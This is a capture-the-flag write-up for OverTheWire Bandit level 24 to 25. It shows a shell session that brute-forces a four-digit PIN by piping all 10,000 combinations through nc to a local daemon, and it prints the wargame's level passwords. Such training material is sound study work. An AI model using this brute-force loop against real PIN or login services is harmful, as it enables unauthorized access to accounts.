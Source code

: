 ```yaml
---
title: OverTheWire Bandit Level 24 - 25
date: 2022-07-29T07:00:00
tags: [overthewire, bandit, linux, shell, networking]
---
```

# Prompt
> A daemon is listening on port 30002 and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit PIN code. There is no way to retrieve the PIN code except by going through all of the 10000 combinations, called brute-forcing.

# Solution
```sh
$ ssh bandit24@bandit.labs.overthewire.org -p 2220
bandit24@bandit.labs.overthewire.org password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> bandit24.log; done
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ cat bandit24.log | nc localhost 30002 > bandit25.log
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ grep -v "Wrong!" bandit25.log
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

# References
* MayADevBe. (2022, May 30). OverTheWire Bandit Level 24 - 25. MayADevBe. <https://mayadevbe.me/posts/overthewire/bandit/level25/>